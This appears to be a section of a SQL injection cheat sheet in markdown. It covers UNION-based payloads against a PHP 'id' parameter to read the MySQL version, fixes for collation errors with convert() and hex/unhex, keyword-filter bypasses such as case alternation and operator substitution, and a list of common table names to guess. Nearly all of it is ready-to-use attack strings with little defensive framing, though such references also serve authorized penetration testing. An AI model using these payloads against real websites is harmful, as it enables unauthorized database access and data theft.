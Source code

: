 ## Check for MySQL version

* Lets say that you have number 2 on the screen, now to check for version
* You replace the number `2` with `@@version or version()` and get something like `4.1.33-log` or `5.0.45` or similar.
* It should look like:

```
http://$ip/news.php?id=5 union all select 1,@@version,3/*
```

* If you get an error:

```
"union + illegal mix of collations (IMPLICIT + COLLATIONS) ..."
```

* You need the convert() function

```
http://$ip/news.php?id=5 union all select 1,convert(@@version using latin1),3/
```

* Or with hex() and unhex()

```
http://$ip/news.php?id=5 union all select 1,unhex(hex(@@version)),3/*
```

* And you will get the MySQL version

### Generic Bypasses

* Blacklist using keywords - bypass using uppercase/lowercase

```
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

* Blacklist using keywords case insensitive - bypass using an equivalent operator

```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```

## Getting table and column name

* If the MySQL version is < 5 (i.e 4.1.33, 4.1.12...) you must guess the table and column names
* Common table names are:

```
users, admins, members ..
```
